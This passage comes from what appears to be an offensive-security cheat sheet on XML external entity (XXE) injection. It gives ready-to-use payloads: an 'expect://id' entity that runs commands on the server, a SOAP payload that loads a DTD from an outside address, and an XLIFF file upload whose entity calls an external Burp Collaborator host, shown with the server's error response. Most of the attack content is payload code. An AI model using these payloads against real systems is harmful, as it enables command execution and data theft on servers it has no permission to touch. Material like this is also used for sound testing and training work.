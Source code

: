 ### Remote code execution

**If PHP "expect" module is loaded**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

## **SOAP - XEE**

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## XLIFF - XXE

This example is inspired in [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)

XLIFF (XML Localization Interchange File Format) is utilized to standardize data exchange in localization processes. It's an XML-based format primarily used for transferring localizable data among tools during localization and as a common exchange format for CAT (Computer-Aided Translation) tools.

### Blind Request Analysis

A request is made to the server with the following content:

```xml
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

However, this request triggers an internal server error, specifically mentioning a problem with the markup declarations:

```json
{
  "status": 500,
  "error": "Internal Server Error",
  "message": "Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."
}
```
